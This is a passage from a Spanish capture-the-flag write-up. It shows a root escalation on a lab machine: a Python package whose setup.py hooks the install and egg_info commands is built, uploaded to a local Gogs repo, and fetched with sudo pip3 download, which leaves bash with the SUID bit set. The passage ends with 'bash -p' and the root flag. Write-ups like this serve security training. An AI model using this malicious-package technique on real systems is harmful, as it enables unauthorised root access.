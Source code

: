 ```python
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

A continuación lo covertimos en un paquete:

```bash
python3 -m build
```

Ya solo queda crear un nuevo repo en el gogs y subir el .tar.gz que debe encontrarse en *.dist/*. Finalmente ejecutamos el siguiente comando con sudo:

```bash
sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/exploit/src/master/this_is_fine_wuzzi-0.0.1.tar.gz
```

Y ya tenemos privilegios SUID en la [[bash]]:

```bash
bash -p
```

Y solo queda ver el *root.txt* (`ddd6fbe43104c5b6d0ecbeaa5f35222e`). Y ya habríamos acabado la máquina!
